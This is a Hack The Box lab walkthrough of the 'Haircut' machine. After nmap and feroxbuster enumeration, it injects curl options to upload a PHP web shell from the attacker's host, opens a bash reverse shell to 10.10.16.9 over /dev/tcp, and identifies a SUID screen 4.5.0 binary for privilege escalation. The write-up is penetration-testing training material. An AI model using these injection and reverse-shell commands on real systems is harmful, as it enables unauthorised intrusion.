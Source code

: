 ```yaml
---
title: "[HTB] Machine: Haircut"
description: "[HTB] Machine: Haircut"
date: 2023-09-30
menu:
  sidebar:
    name: "[HTB] Machine: Haircut"
    identifier: htb-machine-Haircut
    parent: htb-machines-linux
    weight: 10
hero: images/haircut.png
tags: ["HTB", "php", "upload", "command-injection", "parameter-injection", "webshell", "curl", "filter", "screen"]
---
```


# Haircut
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.24 --min-rate 10000           
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 21:40 BST
Nmap scan report for 10.10.10.24 (10.10.10.24)
Host is up (0.11s latency).
Not shown: 65507 filtered tcp ports (no-response), 26 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds

```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.10.24 --min-rate 10000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-30 21:41 BST
Nmap scan report for 10.10.10.24 (10.10.10.24)
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
|_http-server-header: nginx/1.10.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.13 seconds
```

- Web server

![](./images/1.png)

- `feroxbuster`
```
└─$ feroxbuster -u http://10.10.10.24 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.24
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      286l     1220w   226984c http://10.10.10.24/bounce.jpg
200      GET        7l       15w      144c http://10.10.10.24/
301      GET        7l       13w      194c http://10.10.10.24/uploads => http://10.10.10.24/uploads/
200      GET       19l       41w      446c http://10.10.10.24/exposed.php

```

## Foothold/User
- `http://10.10.10.24/exposed.php`

![](./images/2.png)

![](./images/3.png)

- Looks like a `curl`
  - We can curl our web server

![](./images/4.png)

- If we try injecting command like `http://localhost/test.html; ping -c 1 10.10.16.9`, we receive an error
  - Probably some filter

![](./images/5.png)

- Assuming it's a `curl`, we can try passing `curl` options
  - And it works

![](./images/6.png)

- Let's upload a web shell
  - `http://10.10.16.9/shell.php -o uploads/shell.php`

![](./images/7.png)

![](./images/8.png)

- Let's get reverse shell
  - Send url-encoded: `bash -c "/bin/bash -i >& /dev/tcp/10.10.16.9/6666 0>&1"` 

![](./images/9.png)

- We could also pass `$([command])` or `` `[command]` ``

![](./images/10.png)

![](./images/11.png)

## Root
- `linpeas` shows `screen 4.5`
  - 
```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                                                            
-rwsr-xr-x 1 root root 139K Jan 28  2017 /bin/ntfs-3g  --->  Debian9/8/7/Ubuntu/Gentoo/others/Ubuntu_Server_16.10_and_others(02-2017)                                                                                                       
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 31K Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40K May  4  2017 /bin/su
-rwsr-xr-x 1 root root 40K Dec 16  2016 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 27K Dec 16  2016 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 134K Jan 20  2017 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 23K Jan 18  2016 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x 1 root root 33K May  4  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 39K May  4  2017 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 33K May  4  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 74K May  4  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 daemon daemon 51K Jan 14  2016 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 53K May  4  2017 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 1.6M May 19  2017 /usr/bin/screen-4.5.0 (Unknown SUID binary!)
-rwsr-xr-x 1 root root 40K May  4  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 49K May  4  2017 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 39K Mar  7  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-- 1 root messagebus 42K Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 204K Apr 29  2017 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-x 1 root root 10K Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 419K Mar 16  2017 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 15K Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1

```

- [exploit-db](https://www.exploit-db.com/exploits/41154)
  - Perform the steps to get a root